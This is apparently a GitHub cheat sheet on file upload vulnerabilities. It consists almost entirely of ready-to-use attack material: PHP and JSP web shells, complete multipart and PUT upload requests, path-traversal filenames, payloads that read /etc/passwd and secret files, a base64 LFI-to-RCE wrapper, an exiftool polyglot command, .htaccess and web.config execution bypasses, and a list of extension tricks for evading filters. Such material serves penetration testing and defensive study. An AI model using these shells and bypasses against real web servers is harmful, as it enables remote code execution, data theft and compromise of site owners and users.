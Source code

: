# **File Upload Vulnerability**

## **Index**

1. [PHP Web Shell Upload](#1-php-web-shell-upload)  
2. [Image Upload with Embedded PHP Code](#2-image-upload-with-embedded-php-code)  
3. [Bypassing Content-Type Validation](#3-bypassing-content-type-validation)
4. [Uploading Files via Path Traversal Vulnerability](#uploading-files-via-path-traversal-vulnerability)  
5. [Uploading Files Using PUT](#uploading-files-using-put)
7. [PHP Payloads for RCE](#php-payloads-for-rce)  
   - [Normal Payloads](#normal-payloads)  
   - [Exploiting Server Configuration](#exploiting-server-configuration)  
     - [Apache Bypass](#apache-bypass)  
     - [IIS Bypass](#iis-bypass)  
   - [Obfuscating File Extensions](#obfuscating-file-extensions)
---
### **1. PHP Web Shell Upload**

Uploading a simple PHP script as a file to get remote code execution.

**Malicious File Content (`shell.php`):**
```php
<?php echo shell_exec($_GET['cmd']); ?>
```

**Example HTTP Request:**
```http
POST /upload HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=---------------------------12345
Content-Length: 221

-----------------------------12345
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

<?php echo shell_exec($_GET['cmd']); ?>
-----------------------------12345--
```

In this example, the attacker uploads a file named `shell.php` that contains a PHP web shell. If the server stores the file in a web-accessible location, the attacker can execute commands by accessing `http://vulnerable-website.com/uploads/shell.php?cmd=ls`.

---

### **2. Image Upload with Embedded PHP Code**

Uploading an image file that contains embedded PHP code with a manipulated file extension.

**Malicious File Content (`image.php.jpg`):**
```php
<?php system($_GET['cmd']); ?>
```

**Example HTTP Request:**
```http
POST /upload HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=---------------------------98765
Content-Length: 245

-----------------------------98765
Content-Disposition: form-data; name="file"; filename="image.php.jpg"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>
-----------------------------98765--
```

The attacker uploads a file named `image.php.jpg`. If the server incorrectly identifies the file based on its extension rather than content, the attacker may execute commands by navigating to the uploaded file's URL.

---

### **3. Bypassing Content-Type Validation**

Some web applications check the `Content-Type` header to validate the file type. The attacker can manipulate the header to bypass this check.

**Malicious File Content (`shell.jsp`):**
```jsp
<% out.println("Command execution: " + Runtime.getRuntime().exec(request.getParameter("cmd"))); %>
```

**Example HTTP Request:**
```http
POST /upload HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=---------------------------54321
Content-Length: 256

-----------------------------54321
Content-Disposition: form-data; name="file"; filename="shell.jsp"
Content-Type: image/jpeg

<% out.println("Command execution: " + Runtime.getRuntime().exec(request.getParameter("cmd"))); %>
-----------------------------54321--
```

Here, the attacker uploads a JSP file disguised with a `Content-Type` of `image/jpeg`, hoping that the server only checks the header and not the actual content of the file.

---

## **Uploading Files via Path Traversal Vulnerability**

In some cases, you can exploit file upload vulnerability via path traversal:  
- `filename="../exploit.php"`  
- URL encoding: `filename="..%2fexploit.php"`

---

## **Uploading Files Using PUT**

```text
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```

## **PHP Payloads for RCE**

### **Normal Payloads**
```php
<?php echo file_get_contents('/etc/passwd'); ?> // To read files
<?php system($_GET['cmd']); ?> // For system command
<?php passthru($_GET['cyborg71']); ?> // For system command*
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=ls // LFI to RCE
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" hacker.jpg -o polyglot.php
```

---

### **Exploiting Server Configuration**

#### **Apache Bypass**
```text
Step 1 >>
filename=".htaccess"
Content-Type: text/plain
AddType application/x-httpd-php .shell

Step 2 >>
filename="test.shell"
Content-Type: application/x-httpd-php
<?php system($_GET['cmd']); ?>
```

#### **IIS Bypass**
```text
Step 1 >>
filename="web.config"
Content-Type: text/plain
<configuration>
    <system.webServer>
        <staticContent>
            <mimeMap fileExtension=".php" mimeType="application/x-httpd-php" />
        </staticContent>
    </system.webServer>
</configuration>

Step 2 >>
Content-Type: application/x-httpd-php
<?php system($_GET['cmd']); ?>
```

---

### **Obfuscating File Extensions**
```text
.php
.php3
.php4
.php5
.pHp
.shtml
.php.jpg
.php.png
%2Ephp
.php;.jpg
.php;.png  
.php%00.jpg
.php%00.png
.p.phphp
```
---


